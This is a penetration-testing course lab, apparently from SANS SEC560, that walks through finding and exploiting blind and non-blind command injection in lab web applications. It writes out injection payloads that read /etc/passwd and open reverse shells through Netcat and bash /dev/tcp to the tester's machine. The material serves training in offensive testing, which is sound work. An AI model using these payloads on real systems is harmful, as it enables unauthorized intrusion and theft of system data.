Lab 5.7: Command Injection
Objectives
- To discover a non-blind command injection flaw by injecting
pingcommands into a target web application - To discover a blind command injection flaw by injecting
pingcommands and sniffing for ICMP packets sent from the target - To exploit a non-blind command injection flaw on a target website to get shell access
- To exploit a blind command injection flaw to get non-blind shell access, leveraging Netcat installed on the target machine
- To exploit a blind command injection flaw to get shell without using Netcat on the target but relying on bash’s
/dev/tcpfeature instead for the reverse connection
Lab Setup
Ensure that you can ping 10.10.10.10, 10.10.10.50, and 10.10.10.60 in the 560 target environment from your Slingshot Linux machine.
sec560@slingshot~$ ping 10.10.10.10 sec560@slingshot~$ ping 10.10.10.50 sec560@slingshot~$ ping 10.10.10.60
Lab – Step-by-Step Instructions
For this lab, we’ll be looking at two different applications with command injection flaws. On target 10.10.10.50, the index.php function has a command injection flaw that will allow you to see the output of your commands right in the webpage response.
Target 10.10.10.60 has a web application that is also vulnerable to command injection flaws, but this one will not display the output of a command to you. We’ll perform blind command injection against this target. But note that we are going to analyze how to use blind command injection flaws to achieve more flexible access to the target machine.
Step 1: Identifying command injection
Get your Linux system ready by launching Firefox to attack the target. You can launch Firefox by clicking the icon in the bar at the top of the screen.
We will not be using ZAP to launch this attack, so make sure your browser is configured to not use a proxy. On the right side of your browser URL line, right-click the fox head icon and select "Turn off FoxyProxy (Use Firefox settings).

In Firefox, surf to http://10.10.10.50/index.php. In the form, we need to provide input that will make the target execute a command. This application works by taking user input and handing it to a program at the command shell. We need to provide some user input for the existing command in the application to process, terminate that command invoked by the web app with a semicolon, and then follow it with the command we want to execute, followed by another semicolon, followed by another command.
To test this, first activate a sniffer on your Linux machine, configured to show ICMP messages associated with host 10.10.10.50:
sec560@slingshot~$ sudo tcpdump -n host 10.10.10.50 and icmp
Then enter the following command into the form field on the website 10.10.10.50:
test; ping -c 4 YOUR_LINUX_IP_ADDRESS; echo hello
Click the Continue button.

In your tcpdump sniffer, you should display eight ICMP messages, pings from 10.10.10.50, and your Linux machine’s responses.

Notice that the output of the ping command is displayed in your browser. Thus, we can try other commands, looking directly at their output. In the form field, enter:
test; whoami; echo hello
Then try:
test; cat /etc/passwd; echo hello

When we can see the output of commands injected into a web app on a webpage, command injection is quite straightforward. But we don’t always have that luxury.
Step 2: Looking at 10.10.10.60
Consider the web application at http://10.10.10.60/research560/loginform.php.
Note that this target is .60, not .50. This one has a command injection flaw as well, but it will not show you the output of commands. Let’s try it as before.
Run your sniffer looking for ICMP packets coming from host 10.10.10.60 (NOT 10.10.10.50!):
sec560@slinghsot~$ sudo tcpdump -n host 10.10.10.60 and icmp
As shown on this slide, MAKE SURE YOU CHANGE YOUR SNIFFER’S FILTER SO THAT IT FOCUSES ON PACKETS FOR 10.10.10.60, AND NOT 10.10.10.50.
Now, in your browser, surf to http://10.10.10.60/research560/loginform.php.
In the field for Username, type in the following:
test; ping -c 4 YOUR_LINUX_IP_ADDRESS; echo hello
Click the Login button.

You should see the ICMP traffic in your sniffer, but you will not see the output of the ping command in your browser. You see a message saying that you had invalid credentials but no output from the ping command.

Thus, we have a target application that is vulnerable to blind command injection. In your browser, click the back button. Verify that your command injection is indeed blind by entering a Username of:
test; whoami; echo hello
Although the whoami command will run, you won’t see its output.
Step 3: Blind Command Injection
So, we can execute commands on the target but cannot see the output.
How can a penetration tester or ethical hacker use this blind command injection capability to establish interactive shell access on the target? One option we have is to use Netcat. As you recall, Netcat is a handy TCP and UDP networking widget tool. If Netcat is installed on the target machine, we could use blind command injection to invoke it to get interactive shell access.
Netcat just happens to be installed on the target in /bin/nc. Let’s cause the web application to invoke it to make a reverse shell connection back to us. Start by running the following on your Linux box: a Netcat listener (-l), listening on a local port (-p) of your choosing, waiting for a connection:
sec560@slingshot~$ nc -nvlp 9999
Note: The options include a lowercase L, not a one.
Then to make a reverse shell connection come from 10.10.10.60 back to your machine, enter the following username into the page at http://10.10.10.60/research560/loginform.php:
test; /bin/nc YOUR_LINUX_IP_ADDRESS 9999 -e /bin/bash; echo hello
Click the Login button to make the application run your command.

Then, on your Linux machine, you should see an inbound connection. You won’t see a command prompt come back because Netcat backdoor listeners created in this fashion don’t provide a command prompt. But if your remote shell started properly, you should be able to type in shell commands, and they will run. You will likewise see their output. Type in commands such as whoami, hostname, ls, and ifconfig.

When you finish, press CTRL-C to stop Netcat from running. We used blind command injection to get interactive reverse shell access to the target via Netcat.
4. Netcat without Netcat
Of course, for that technique to work, not only would Netcat have to be installed on the target machine, but the attacker would also have to know where Netcat is located in the file system.
However, there is another way to get interactive shell access via command injection that doesn’t require Netcat on the target. If the target machine is a Linux or UNIX system with bash installed, we likely can use bash and some network-related items inside /dev to mimic Netcat functionality. To get a feel for how this technique works, first, let’s practice it locally to get a shell on our local box. Then we’ll try it against our target.
Start by running a Netcat listener, waiting for a connection on your Linux machine. This will model what the tester will run on his or her own machine to send a reverse shell to:
sec560@slingshot~$ nc -nvlp 9999
Then, still on your Linux machine, run a command that will make an interactive shell connection using bash across the network:
sec560@slingshot~$ /bin/bash -i > /dev/tcp/YOUR_LINUX_IP_ADDRESS/9999 0<&1

When the connection is made, type in commands in your Netcat listener. Make sure you type the commands in the Netcat listener terminal, not the /dev/tcp terminal. They will execute, and you will see the results. We replaced Netcat with bash, redirect, and /dev/tcp!
Note that we invoked bash in interactive mode (-i), directing its output to a TCP device that will tell our system to make a TCP connection across the network. The 0<&1 tells the system to duplicate the Standard Output file descriptor (&1) and connect it to the Standard Input of bash. That way, we can send commands into bash. You could add 2>&1 to this command at the end and even get your shell prompt and Standard Error messages back.
This bash with /dev/tcp technique to mimic Netcat works on any Linux or UNIX system with bash that allows redirects to and from the network via /dev/tcp or /dev/udp. That is, it works on most (but not all) Linux, Solaris, and FreeBSD systems. The technique does not work on Debian, Ubuntu, Knoppix, and related Linux systems because their bash installs were compiled so that they cannot redirect to the network via /dev.
5. dev/tcp command injection
Before moving forward, make sure you exit your Netcat session from the previous step by hitting CTRL-C on your nc terminal window.
Now let’s try this /dev/tcp technique on the target system with the blind command injection vulnerability. Start your Netcat listener to receive the reverse shell on your Linux machine, using our now-familiar command:
sec560@slingshot~$ nc -nvlp 9999
Note: The options above include a lowercase L, not a one.
Then, in the Username field, enter this command:
test; /bin/bash -i > /dev/tcp/YOUR_LINUX_IP_ADDRESS/9999 0<&1 2>&1; echo hello
There must be a space between the 0<&1 and the 2>&1. Click the Login button to submit your input.

Your Linux Netcat listener should get a connection with a shell prompt (because we redirected Standard Error with the 2>&1). Type in commands here, such as whoami, ifconfig, cat /etc/passwd, and hostname. They are running on the target machine.

We’ve gotten remote interactive command shell access via blind command injection on a Linux system without using Netcat, relying on a useful capability of bash and /dev/tcp.
Conclusion
In this lab, we’ve explored non-blind and blind command injection flaws, which provide a penetration tester an excellent opportunity for exploitation and gaining interactive shell access of a target machine. We leveraged Netcat installed on a target Linux machine to make a reverse shell connection back to our systems, and then explored how we could achieve similar functionality even if Netcat was not installed on the target. The use of Bash’s /dev/tcp feature as a TCP client for such reverse shell connections is extremely useful.